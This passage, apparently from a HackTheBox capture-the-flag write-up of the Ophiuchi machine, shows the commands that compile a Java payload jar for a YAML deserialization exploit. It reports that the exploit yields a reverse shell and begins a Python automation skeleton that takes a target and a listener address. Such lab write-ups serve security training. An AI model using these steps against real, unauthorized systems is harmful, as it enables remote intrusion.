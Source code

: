 ![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-18-HackTheBox-Ophiuchi/2021-09-18-HackTheBox-Ophiuchi%2008:21:02.png)

Now, we compile it

```sh
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C src/ .
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-18-HackTheBox-Ophiuchi/2021-09-18-HackTheBox-Ophiuchi%2008:18:34.png)

Now, we try our exploit

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-18-HackTheBox-Ophiuchi/2021-09-18-HackTheBox-Ophiuchi%2008:19:34.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-18-HackTheBox-Ophiuchi/2021-09-18-HackTheBox-Ophiuchi%2008:19:22.png)

And we get a reverse shell

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-18-HackTheBox-Ophiuchi/2021-09-18-HackTheBox-Ophiuchi%2008:20:42.png)

Great. As always, let's automate all the things

# Auto Tomcat Shell

First, we will use our python skeleton to do that

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--ipaddress', help='Listening IP address for reverse shell', required=False)
    parser.add_argument('-lp', '--port', help='Listening port for reverse shell', required=False)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```
